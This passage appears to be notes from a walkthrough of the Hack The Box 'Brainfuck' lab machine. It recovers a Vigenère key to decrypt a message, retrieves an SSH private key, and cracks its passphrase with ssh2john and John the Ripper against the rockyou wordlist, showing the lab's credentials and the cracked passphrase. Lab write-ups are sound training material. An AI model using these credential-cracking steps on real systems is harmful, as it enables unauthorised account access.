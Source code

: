 Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO

Regards


Plaintext : Orestis - Hacking for fun and profit
Encrypted : Pieagnm - Jkoijeg nbw zwx mle grwsnn

http://rumkin.com/tools/cipher/otp.php

using rumkin, we get the key "fuckmybrain"

http://rumkin.com/tools/cipher/vigenere-keyed.php

Ybgbq wpl gw lto udgnju fcpp, C jybc zfu zrryolqp zfuz xjs rkeqxfrl ojwceec J uovg :)

mnvze://10.10.10.17/8zb5ra10m915218697q1h658wfoq0zc8/frmfycu/sp_ptr

There you go you stupid fuck, I hope you remember your key password because I dont :)

https://10.10.10.17/8ba5aa10e915218697d1c658cdee0bb8/orestis/id_rsa



id_rsa to passphrase

┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ python /usr/share/john/ssh2john.py id_rsa > id_john                             
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ ls
40939.txt  41006.txt  exploit.html  id_john  id_rsa
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ subl id_john
┌──(kali㉿kali)-[~/htb/brainfuck]
└─$ john id_john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
3poulakia!       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:04 DONE (2021-06-12 07:39) 0.2212g/s 3172Kp/s 3172Kc/s 3172KC/sa6_123..*7¡Vamos!
Session completed
                     
